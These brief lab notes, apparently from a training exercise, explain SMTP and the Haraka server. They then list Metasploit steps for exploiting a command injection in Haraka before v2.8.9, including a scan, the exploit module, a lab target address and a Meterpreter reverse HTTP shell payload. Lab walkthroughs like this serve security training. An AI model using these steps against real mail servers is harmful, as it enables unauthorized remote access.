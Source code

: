
+ SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.

+ SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.

+ Haraka is an open source high performance SMTP server developed in Node.js.

+ The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to` V2.8.9` are vulnerable to command injection.

### How to exploit ?

1. Create workspace and perform a `db_nmap` scan.

2. Exploiting `Haraka` with command injection.
```
use exploit/linux/smtp/haraka
```
- Set `SRVPORT` to 9898
- Set `email_to`. In our case, it is  `root@attackdefense.tech`
- Set payload `linux/x64/meterpreter_reverse_http`